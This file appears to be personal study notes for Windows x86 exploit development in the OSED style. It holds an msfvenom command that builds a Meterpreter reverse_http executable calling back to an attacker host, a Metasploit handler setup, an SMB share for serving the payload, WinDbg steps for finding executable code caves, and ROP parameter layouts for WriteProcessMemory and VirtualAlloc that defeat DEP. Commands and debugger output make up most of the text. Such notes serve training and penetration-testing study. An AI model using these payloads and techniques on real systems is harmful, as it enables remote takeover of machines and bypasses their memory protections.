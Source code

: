 # x86Win-OSED-Notes

# Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

# met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

# smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

# Code cave search:
we can find the offset to the PE header by dumping the DWORD at offset 0x3C from the MZ header. Then, add 0x2C to the offset to find the offset to the code section
```
0:077> dd libeay32IBM019 + 3c L1
031f003c 00000108
0:077> dd libeay32IBM019 + 108 + 2c L1
031f0134 00001000
0:077> ? libeay32IBM019 + 1000
Evaluate expression: 52367360 = 031f1000
```
Use the !address or !vprot command to collect information about the code section.
```
0:077> !address 031f1000
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Check for sufficient size for code cave
```
0:077> dd 03283000-400
03282c00 00000000 00000000 00000000 00000000
03282c10 00000000 00000000 00000000 00000000
03282c20 00000000 00000000 00000000 00000000
03282c30 00000000 00000000 00000000 00000000
03282c40 00000000 00000000 00000000 00000000
03282c50 00000000 00000000 00000000 00000000
03282c60 00000000 00000000 00000000 00000000
03282c70 00000000 00000000 00000000 00000000

0:077> ? 03283000-400 - libeay32IBM019
Evaluate expression: 601088 = 00092c00

0:077> !address 03282c00
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Alternative: Use Pykd code caver: https://github.com/nop-tech/code_caver
```
!py C:\Users\admin\Desktop\code_caver.py <startAddress> <endAddress>
```

# Stack set-ups
WriteProcessMemory: https://connormcgarr.github.io/ROP2/
```
# kernel32!WriteProcessMemory placeholder parameters
crash += struct.pack('<L', 0x61c832e4)    # Pointer to kernel32!WriteFileImplementation (no pointers from IAT directly to kernel32!WriteProcessMemory, so loading pointer to kernel32.dll and compensating later.)
crash += struct.pack('<L', 0x61c72530)    # Return address parameter placeholder (where function will jump to after execution - which is where shellcode will be written to. This is an executable code cave in the .text section of sqlite3.dll)
crash += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
crash += struct.pack('<L', 0x61c72530)    # lpBaseAddress = pointer to where shellcode will be written to. (0x61C72530 is an executable code cave in the .text section of sqlite3.dll) 
crash += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
crash += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
crash += struct.pack('<L', 0x1004D740)    # lpNumberOfBytesWritten = writable location (.idata section of ImageLoad.dll address in a code cave)
```
VirtualAlloc:
```
functionAddress = b"AAAA"       # VirtualAllocStub address
shellcodeAddress = b"BBBB"      # shellcode address
param1 = b"CCCC"                # lpAddress = shellcode address
param2 = b"DDDD"                # dwSize
param3 = b"EEEE"                # flAllocationType
param4 = b"FFFF"                # flProtect
```
